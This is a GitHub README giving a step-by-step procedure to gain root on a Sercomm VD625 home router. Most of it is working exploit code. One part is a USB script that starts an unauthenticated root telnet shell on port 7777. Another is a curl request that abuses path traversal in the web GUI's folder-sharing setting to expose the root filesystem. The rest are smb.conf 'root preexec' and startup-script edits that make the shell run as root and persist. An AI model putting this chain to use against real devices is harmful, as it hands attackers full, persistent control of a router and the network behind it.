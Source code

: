 Root Sercomm VD625
==================

[![size](https://img.shields.io/github/repo-size/xmase/Sercomm-VD625.svg)](https://github.com/xMase/Sercomm-VD625)
[![license](https://img.shields.io/github/license/xMase/Sercomm-VD625.svg)](https://github.com/xMase/Sercomm-VD625)


- activate the router usb sharing by insert a fat32 formatted stick with the **runme** file inside it:

```sh
    #!/bin/sh
    
    exec > /mnt/shares/USB2FlashStorage/Partition1/it_worked 2>&1
    set -x

    ps
    date
    
    iptables -D INPUT -i ! br0 -p tcp --dport 7777 -j DROP >/dev/null 2>&1
    iptables -I INPUT -i ! br0 -p tcp --dport 7777 -j DROP    
    /bin/telnetd -F -p 7777 -l /bin/sh&
```

- run the **curl** command to enable folder sharing:

    **(csrf_token should be updated each time by taking it from a random webgui request)**

```sh
curl -X POST -i 'http://192.168.1.1/data/settings_content_sharing_device.json?_=1551786266690&csrf_token=HK08CC1C89JW113A2638' --data 'sharing_device=[{"device_id":"1","root_folder":"/","ns_content_sharing_enable":"1","ns_require_username_password":"0","ns_user_id":"1","ns_share_all_folders":"0","ns_share_folder_data":"1|root|../../../:0|Partition1|:"}]'
```

- once done, disable and re-enable the usb sharing function from the router to apply the changes

- navigate with **dolphin** on the newly shared folder (*on windows use network sharing*)

>smb://admin@RouterIp/

- samba process was spawned with the user **nobody** who does not have root privileges, to remedy this, replace the router ***/etc/samba/smb.conf*** file with the one in the shared folder on the usb key

- example of modified **smb.conf** file:

```ini
    [global]
    ...
    log file = /tmp/a1
    
    config file = /etc/samba/smb.conf (remove this)

    [Partition1]
    ...
	root preexec = /bin/sh -c "/mnt/shares/USB2FlashStorage/Partition1/runme &" 
```

- This config file force samba to **run telnet as root on port 7777**

- to start samba *preexec* navigate in **/Partition1/USB2FlashStorage/Partition1/** and **/root/etc/samba/** multiple times

- in the **/tmp/** directory the file **a1** will appear which will be a smbd log for debugging errors

- in the folder **/Partition1/USB2FlashStorage/Partition1/** the file **it_worked** will appear which will show us the success of the procedure

- now can **connect** to the **router ip on port 7777** with **telnet**

- remount the root folder in **rw** mode<br>
    **(/dev/mtdblock7 - /dev/mtdbloc6 in this case I am on block 7)**

>mount -n -t jffs2 -o rw,remount /dev/mtdblock7 /

- insert this changes in **/etc/rcS** to **autorun** the **exploit** on startup:<br>
    **(please note that the USB must always remain connected to the router)**

```sh
    ...
    # after this line "mount -n -t ramfs ramfs /tmp":
    ...
    # log
    exec > /tmp/bootlog 2>&1
    set -x
    ...
    # chage this "rc init > /dev/null" to rc "init"
    ...
    # after last line insert:
    ...
    # my
    mkdir -m 0777 /mnt/my/ 
    mount -n -t vfat -o rw /dev/sda1 /mnt/my/ 
    /usr/sbin/ls "/mnt/my" 
    ((/usr/sbin/sh /mnt/my/runme 0<&- &>/dev/null &) &)
```

- before restarting the device **disable the shared folders on the router** and **remount the root folder in ro** mode

```sh
    mount -n -t jffs2 -o ro,remount /dev/mtdblock7 /
    reboot
```

Tips
====

SercommVD625.iso Telecom Italia_VD625_AGSOT_1.0.8.tar/Telecom Italia_VD625_AGSOT_1.0.8/VD625_v1.0.8/build/VD625/target.tgz => **gui files**

AGSOT_1.0.8.img => **to extract the router upgrade image first use sercomm_fwutils-master and than python jefferson to extract fs**

To view the router configuration use the command **"cmld_client get_node Device."**.